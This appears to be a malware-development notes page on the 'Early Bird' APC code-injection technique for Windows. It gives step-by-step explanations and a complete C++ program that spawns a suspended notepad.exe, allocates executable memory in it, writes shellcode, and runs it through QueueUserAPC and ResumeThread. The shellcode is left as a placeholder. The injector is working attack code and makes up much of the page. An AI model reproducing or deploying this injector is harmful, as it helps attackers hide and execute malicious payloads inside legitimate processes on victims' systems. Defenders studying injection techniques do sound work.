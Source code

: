```yaml
---
title: Early Bird (APC Calls)
category: Maldev-Code Injection
order: 5
---
```


This technique spawn a new process with `CreateProcessA` an inject into it using APC. Similar to APC Injection but we don't need to wait till the payload is executed.

The new child process is created on a **suspended mode**. Our shellcode is executed **without** setting the thread into a **Alertable state** due to when the process is created the system calls the function `ZwTestAlert` that will trigger the APC call.

1. `CreateProcessA()` Open a remote process handle.
2. `VirtualAllocEx` Allocate memory buffer in the remote process to store shellcode.
3. `WriteProcessMemory()` Write shellcode in remote memory buffer
4. `QueueUserAPC()` Execute shellcode in remote proccess by scheduling APC object in the threads APC queue.
5. `ResumeThread()` Resume the main thread in the remote process in order to get the payload executed.

# Analysis

First we need to create a child process on a suspended state. 

```cpp
CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
```

As we can see a `notepad.exe` with `pid=7356` has spawned on a suspended state.

![](/rtnotes/images/early-bird-01.png)

A memory buffer should be created with `VirtuallAllocEx` on the `notepad.exe` process.

```cpp
pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, sizeof(payload), MEM_COMMIT, PAGE_EXECUTE_READ);
```

![](/rtnotes/images/early-bird-02.png)

Next step is copy our payload on the buffer.

```cpp
WriteProcessMemory(pi.hProcess, pRemoteCode, payload, sizeof(payload), NULL);
```

![](/rtnotes/images/early-bird-03.png)

Finally we just need to queue the main thread and resume it to get the payload executed.

```cpp
QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
ResumeThread(pi.hThread);
```

![](/rtnotes/images/early-bird-04.png)

# Code

Example of Early Bird Injection:

```cpp
#include <Windows.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
    HANDLE hProc;
    void * pRemoteCode;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    char payload[] = {0xfc, 0x48,...};
    
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );

    if(CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi)){
        printf("[+] Notepad created: pid -> %d\n", pi.dwProcessId);
        getchar();
        
        pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, sizeof(payload), MEM_COMMIT, PAGE_EXECUTE_READ);
        printf("pRemoteCode -> 0x%p\n", pRemoteCode);
        getchar();
        
        WriteProcessMemory(pi.hProcess, pRemoteCode, payload, sizeof(payload), NULL);
        printf("[+] Payload copied to the buffer\n");
        getchar();
        
        QueueUserAPC((PAPCFUNC)pRemoteCode, pi.hThread, NULL);
        printf("[+] Thread queued\n");
        getchar();
        
        ResumeThread(pi.hThread);
        printf("[+] Thread resumed\n");
    }
    
    return 0;
}
```